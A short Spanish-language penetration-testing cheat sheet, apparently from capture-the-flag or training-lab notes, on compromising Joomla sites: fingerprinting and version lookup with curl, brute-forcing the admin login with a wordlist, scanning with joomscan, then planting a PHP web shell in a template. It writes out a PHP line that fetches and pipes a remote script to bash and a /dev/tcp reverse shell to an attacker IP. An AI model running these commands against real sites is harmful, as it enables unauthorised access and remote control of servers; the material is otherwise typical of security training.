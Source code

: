 #### Buscar en el código fuente si un sitio es joomla:

    curl -s http://dev.inlanefreight.local/ | grep Joomla

#### Buscar versión manualmente:

    curl -s http://dev.inlanefreight.local/administrator/manifests/files/joomla.xml | xmllint --format -

#### Brute-forcing:

    sudo python3 joomla-brute.py -u http://dev.inlanefreight.local -w /usr/share/metasploit-framework/data/wordlists/http_default_pass.txt -usr admin

#### Automated scan:

    perl joomscan.pl -u <site> --enumerate-components 
    


### Obteniendo una shell:

Podemos obtener una shell siguiendo un proceso parecido al de WP:
##### 1)Entramos al control panel y vamos a templates
##### 2)En templates vamos nuevamente a Templates
##### 3)Seleccionamos el template donde vamos a meter la shell dentro de la columna template(esto nos lleva al customizador)
##### 4)incertamos la shell en una página. Luego podemos llamarla con curl:

        
        curl -s http://app.inlanefreight.local/templates/<template>/<pagina>.php?0=id
### Obteniendo una shell 2:

agregar en una página un código php:
        <?php system("curl 10.10.14.70:8080/rev.sh|bash"); ?>

crear la shell
        echo -e '#!/bin/bash\nsh -i >& /dev/tcp/10.10.14.70/4444 0>&1' > rev.sh

iniciar un servidor python y un netcat

Llamar a la páginacon curl:

        curl -k "http://dev.devvortex.htb/templates/cassiopeia/error.php/error"
